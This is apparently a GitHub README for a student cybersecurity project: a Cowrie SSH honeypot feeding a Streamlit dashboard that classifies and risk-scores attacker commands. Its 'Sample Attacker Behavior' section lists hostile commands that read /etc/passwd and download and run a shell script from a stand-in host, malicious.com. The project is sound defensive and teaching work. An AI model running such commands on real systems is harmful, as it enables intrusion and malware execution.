


# 🛡️ Honeypot-Based Threat Intelligence Dashboard

## 📌 Overview

This project implements a **real-time threat intelligence dashboard** using the Cowrie SSH honeypot. It captures attacker behavior, analyzes commands, and visualizes activity through an interactive Streamlit dashboard.

The system simulates a **Security Operations Center (SOC)** workflow by detecting, classifying, and scoring attacker actions in real time.

---

## 🚀 Key Features

* 🔄 **Real-Time Event Monitoring**

  * Streams attacker commands and login attempts live

* 🔴 **High-Risk Alert Detection**

  * Automatically flags suspicious sessions based on behavior

* 📊 **Threat Scoring System**

  * Assigns dynamic risk scores to each attacker IP

* 🧠 **Behavioral Classification**

  * Categorizes commands into:

    * Reconnaissance
    * Credential Access
    * Malware Download
    * Execution

* ⏰ **Temporal Attack Analysis**

  * Identifies peak attack times and patterns

* 📈 **Interactive Dashboard**

  * Built using Streamlit and Matplotlib

---

## 📊 Dashboard Preview




---

## 🎥 Live Attack Demo

[▶️ Watch Demo](https://raw.githubusercontent.com/anjanar030400/cowrie-honeypot-dashboard/main/screenshots/live_honeypot_attack_demo.mp4)
---

## 🛠️ Technologies Used

* Cowrie Honeypot
* Python
* Streamlit
* Matplotlib
* GeoIP2
* Ubuntu VM

---

## 🔍 Sample Attacker Behavior

Commands executed during live testing:

```bash
whoami
cat /etc/passwd
wget http://malicious.com/malware.sh
chmod +x malware.sh
./malware.sh
```

---

## 🧠 Key Insights

* Attackers typically begin with reconnaissance before exploitation
* Access to `/etc/passwd` indicates credential harvesting attempts
* Malware download attempts often follow reconnaissance
* Peak activity suggests automated attack behavior
* System successfully detects and scores high-risk sessions in real time

---

## 📂 Project Structure

```bash
honeypot-project/
├── dashboard.py
├── scripts/
│   └── parser.py
├── screenshots/
│   ├── dashboard.png
│   └── demo.mov
└── README.md
```

---

## 🎯 Future Improvements

* Deploy honeypot on cloud for real external attacker traffic
* Integrate threat intelligence APIs (AbuseIPDB, VirusTotal)
* Add session tracking per attacker
* Implement real-time alert notifications

---

## 👨‍💻 Author

Anjana Raghavendra
Cybersecurity / Network Security Student
